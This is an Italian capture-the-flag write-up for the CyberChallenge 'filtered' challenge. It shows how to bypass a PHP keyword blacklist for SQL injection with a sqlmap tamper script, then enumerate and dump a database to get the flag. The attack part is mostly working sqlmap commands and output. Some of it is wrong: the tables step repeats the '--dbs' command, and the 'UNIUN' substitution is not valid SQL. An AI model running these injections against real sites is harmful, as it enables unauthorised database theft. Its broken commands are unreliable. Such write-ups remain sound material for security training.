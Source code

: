 # Writeup: WS_2.02 - filtered

**Descrizione**  
È presente un endpoint vulnerabile a SQL Injection:  
```
http://filtered.challs.cyberchallenge.it/post.php?id=
```
Tuttavia, nel codice PHP compare una funzione che filtra alcune keyword (`union`, `and`) sostituendole o impedendone l’uso:
```php
function is_hackerz($input) {
    foreach (['union', 'and'] as $keyword) {
        if (stripos($input, $keyword) !== false) {
            return true;
        }
    }
    return false;
}
```
L’obiettivo è aggirare questo filtro e ottenere la flag memorizzata nel database.

---

## Bypass del Filtro
Per bypassare il filtro su `union` e `and`, possiamo utilizzare un **tamper script** di SQLMap che sostituisce le keyword bloccate con varianti non riconosciute. Ad esempio:

```python
# replace.py
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    payload = payload.replace("AND", "&&")      # Sostituisce 'AND' con '&&'
    payload = payload.replace("UNION", "UNIUN") # Se necessario, si può usare altra forma
    return payload
```

---

## Utilizzo di SQLMap
1. **Individuazione dei Database**  
   ```bash
   sqlmap -u "http://filtered.challs.cyberchallenge.it/post.php?id=1" \
     --tamper=replace \
     --technique=B \
     --level=5 \
     --risk=3 \
     --batch \
     --dbs
   ```
   Dal risultato emergono i database:  
   - `filtered`  
   - `information_schema`  
   - `performance_schema`

2. **Ricerca Tabelle nel Database `filtered`**  
   ```bash
   sqlmap -u "http://filtered.challs.cyberchallenge.it/post.php?id=1" \
     --tamper=replace \
     --technique=B \
     --level=5 \
     --risk=3 \
     --batch \
     --dbs
   ```
   Scopriamo le tabelle:  
   - `flaggy`  
   - `posts`

3. **Esplorazione Tabella `flaggy`**  
   ```bash
   sqlmap -u "http://filtered.challs.cyberchallenge.it/post.php?id=1" \
     --tamper=replace \
     --technique=B \
     --level=5 \
     --risk=3 \
     --batch \
     -D filtered \
     -T flaggy \
     --columns
   ```
   Risultano le colonne:  
   - `now (text)`  
   - `play (varchar(255))`

4. **Dump dei Dati**  
   ```bash
   sqlmap -u "http://filtered.challs.cyberchallenge.it/post.php?id=1" \
     --tamper=replace \
     --technique=B \
     --level=5 \
     --risk=3 \
     --batch \
     -D filtered \
     -T flaggy \
     --dump
   ```
   Dal dump otteniamo:
   ```
   +------------------------------------------------------------------------------------------------+--------+
   | now                                                                                            | play   |
   +------------------------------------------------------------------------------------------------+--------+
   | This time your secret is CCIT{Bl4ckl1sts_Ar3_s0_c00l}, in the middle of a sentence. We'll see. | r4ndom |
   | me pls                                                                                         | fix    |
   +------------------------------------------------------------------------------------------------+--------+
   ```

---

## Flag
```
CCIT{Bl4ckl1sts_Ar3_s0_c00l}
```
